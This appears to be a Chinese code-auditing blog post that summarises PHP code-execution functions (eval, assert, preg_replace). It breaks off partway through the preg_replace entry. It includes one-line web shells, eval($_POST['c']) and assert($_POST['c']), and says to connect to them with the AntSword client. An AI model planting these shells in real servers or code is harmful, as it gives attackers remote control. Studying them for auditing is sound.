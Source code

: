 ```yaml
---
title: "代码执行/命令执行总结"
date: 2019-04-10T19:56:16+08:00
draft: false
tags: ['code','exec']
categories: ['代码审计']
---
```


php的代码执行/命令执行函数



## 代码执行
---
### eval

(PHP 4, PHP 5, PHP 7)
```php
eval( string $code) : mixed
```
把字符串 `code` 作为PHP代码执行。 

```php
eval($_POST['c']);
```

直接蚁剑链接密码为c

### assert

(PHP 4, PHP 5, PHP 7)

```php
assert( mixed $assertion[, Throwable $exception]) : bool
```
如果 `assertion` 是字符串，它将会被 assert() 当做 PHP 代码来执行。

使用方法同eval

```php
assert($_POST['c']);
```

### preg_replace

```php
preg_replace ( mixed $pattern,mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed
```

(PHP 4, PHP 5, PHP 7)

preg_replace — 执行一个正则表达式的搜索和替换
搜索subject中匹配pattern的部分， 以replacement进行替换。
